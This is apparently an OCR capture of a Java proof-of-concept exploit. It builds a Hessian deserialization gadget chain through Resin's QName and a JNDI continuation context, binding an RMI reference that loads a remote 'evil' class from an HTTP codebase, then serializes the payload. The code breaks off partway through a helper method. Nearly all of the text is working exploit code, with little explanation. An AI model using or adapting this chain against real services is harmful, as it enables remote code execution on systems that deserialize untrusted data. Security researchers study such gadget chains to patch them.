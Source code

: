 poc：

```java
package org.exploit.third.resin;

import javax.management.BadAttributeValueExpException;
import javax.naming.*;
import javax.naming.spi.DirectoryManager;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.rmi.registry.LocateRegistry;
import java.util.HashMap;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.naming.QName;
import com.sun.org.apache.xpath.internal.objects.XString;

//BadAttributeValueExpException.readObject -> com.caucho.naming.QName.toString -> NamingContext.getObjectInstance JNDI
public class Hessian_JNDI {
    public static void main(String[] args) throws Exception
    {
        LocateRegistry.createRegistry(1099);
        InitialContext context = new InitialContext();
        Reference reference = new Reference("JNDI_RuntimeEvil", "JNDI_RuntimeEvil", "http://localhost:8888/");
        context.bind("rmi://localhost:1099/remoteImpl", reference);
        CannotProceedException cannotProceedException = new CannotProceedException();
        cannotProceedException.setResolvedObj(reference);
        Context continuationContext = DirectoryManager.getContinuationDirContext(cannotProceedException);
        QName qName = new QName(continuationContext,"_items1","_items2");
        XString xString = new XString("godown!");
        HashMap hashMap1 = new HashMap();
        HashMap hashMap2 = new HashMap();
        hashMap1.put("zZ", qName);
        hashMap1.put("yy", xString);
        hashMap2.put("zZ", xString);
        hashMap2.put("yy", qName);
        HashMap EvilMap = makeMap(hashMap1,hashMap2);
        serialize(EvilMap,"ser.bin");
        unserialize("ser.bin");
    }

    public static void serialize(Object obj, String path) throws IOException {
        FileOutputStream fos = new FileOutputStream(path);
        Hessian2Output ho = new Hessian2Output(fos);
        ho.getSerializerFactory().setAllowNonSerializable(true);
        ho.writeObject(obj);
        ho.close();
    }
    public static HashMap<Object, Object> makeMap(Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> map = new HashMap<>();
        setValue(map, "size", 2); //设置size为2，就代表着有两组
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
```